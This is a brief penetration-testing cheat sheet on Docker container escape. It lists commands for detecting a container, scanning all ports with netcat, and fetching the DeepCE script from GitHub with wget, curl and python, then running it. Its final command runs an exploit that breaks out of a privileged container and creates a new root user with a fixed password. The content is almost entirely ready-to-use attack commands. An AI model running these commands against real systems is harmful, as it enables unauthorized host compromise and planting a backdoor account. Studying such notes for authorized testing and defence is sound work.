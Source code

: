 # Docker Escape
https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html
## Know you're in a docker

```bash
ps aux
cd / && ls -lah
# if .dockerenv then ...

cat /proc/1/cgroup
```

## Escape
```bash
arp -a
# other hosts ???
# scan open ports
nc -zv 127.0.0.1 1-65535
nc -zv $host 1-65535

# check for db and other stuff....
```

### Resources
https://unit42.paloaltonetworks.com/docker-patched-the-most-severe-copy-vulnerability-to-date-with-cve-2019-14271/


#### DeepCE
https://github.com/stealthcopter/deepce
```bash
wget https://github.com/stealthcopter/deepce/raw/main/deepce.sh
curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o deepce.sh
# Or using python requests
python -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/main/deepce.sh").content)' > deepce.sh 
python3 -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/main/deepce.sh").content.decode("utf-8"))' > deepce.sh

# start
chmod +x ./deepce.sh
./deepce.sh

# create new root user on system
./deepce.sh --no-enumeration --exploit PRIVILEGED --username deepce --password deepce
```  
